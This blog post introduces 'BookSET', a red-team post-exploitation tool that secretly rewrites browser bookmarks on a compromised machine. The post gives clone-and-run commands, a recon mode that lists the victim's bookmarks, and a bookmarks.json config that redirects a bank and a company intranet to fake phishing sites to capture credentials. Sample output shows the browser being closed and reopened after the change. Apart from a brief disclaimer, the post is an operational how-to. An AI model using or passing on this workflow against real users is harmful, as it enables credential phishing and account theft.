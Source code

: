 ```yaml
---
layout: single
title: BookSET - a simple Post-Exploitation Tool
excerpt: #"This scam was funn to found"
date: 2023-03-10
classes: wide
header:
  teaser: /assets/images/bookset/banner.png
  teaser_home_page: true
  icon: #/assets/images/hackthebox.webp
categories:
  - Infosec
tags:  
  - tools
  - redteam
  - post-exploitation
---
```


It's been a while since I dared to create something, and this time I bring you a tool that I think can add an interesting result to all the tests that we conduct as a red team for different companies.

During red team exercises, even after achieving access to a certain level, there are times when we need to go a step further, such as obtaining user access credentials. This is why I have created this tool.

![](/assets/images/bookset/banner.png)


BookSET is intended to modify bookmarks primarily for Google Chrome, but tests were also conducted on Edge and Brave browsers. Please note that this script can be used to capture credentials through phishing sites or redirect the victim to your EvilServer.

# ¿How it works? :

Let's clone the repository and install some libraries:

```bash
git clone https://github.com/edwardosorio/BookSET.git

cd BookSET

pip install -r requirements.txt

```
that's it :D !!


## [+] Help ! :

if you need to know the parameters from the script, pls type:

```bash
python bookSET.py -h


 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

usage: bookSET.py [-h] [-recon] [-replace]

Get and Replace all Urls from Google Chrome BookMarks

optional arguments:
  -h, --help  show this help message and exit
  -recon      Get all URLs Bookmarks
  -replace    Replace URLs Bookmarks


```


## [+] Recon Mode :

If you want to know what BookMarks the target has, then we just need to execute the following command line:

```bash
python bookSET.py -recon

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] Getting Urls from BookMarks:
 
 - https://www.facebook.com
 - https://www.bank.com
 - https://www.twitter.com
 - https://www.instagram.com
 - https://intranet.companie.org

[+] Total of BookMarks identified : [5]

```

## [+] bookmarks.json file content :

Now that we know all the BookMarks that the target has, we can check all the URLs and just make a few "fake websites"  for some URLs that we want... 

Once we make the phishing sites, we can configure our "bookmarks.json" file, the content of "bookmarks.json" it's easy to understand, and the "current_url" it's the URL that we want to change and replace it with "new_url":

```bash

{
    "bookmark_bar": [
      {
        "current_url": "https://www.bank.com/",
        "new_url": "https://www.fakebank.com/"
      },
      {
        "current_url": "https://intranet.companie.org/",
        "new_url": "https://intranet.fakecompanie.org/"
      }
    ]
  }
  
  ```

## [+] Replace Mode :

Now that we configured the bookmarks.json file we can execute again our script with -replace parameter:

```bash
python bookSET.py -replace

```

and the output should be something like this:

```bash

 ____              _     ____  _____ _____
| __ )  ___   ___ | | __/ ___|| ____|_   _|
|  _ \ / _ \ / _ \| |/ /\___ \|  _|   | |
| |_) | (_) | (_) |   <  ___) | |___  | |
|____/ \___/ \___/|_|\_\|____/|_____| |_|


[ just a simple post-exploitation tool :) by _mrpack ]

[+] URLs modified:

     [-] https://www.fakebank.com/
     [-] https://intranet.fakecompanie.org/

[+] Total of BookMarks replaced : [2]
Chrome it's running !!

[+] Chrome was Closed !
...
...
...
...
[+] Opening Chrome !

[+] Done !!

```
once the script finished we can check all the changes.

![](/assets/images/bookset/fakebank.png) 

![](/assets/images/bookset/intranetcompanie.png)



NOTE: This script was tested for the following Web Browsers:

- Google Chrome
- Edge
- Brave

And tested for the following O.S:

- windows
- linux
- mac

You just need to change the Browser Path

## Conclusions :

- There are a lot of ways to follow and to exploit to get better results.
- Users don't check the URLs from bookmarks because they make that bookmark, then they trust when they click it ... please don't use this for bad purposes.


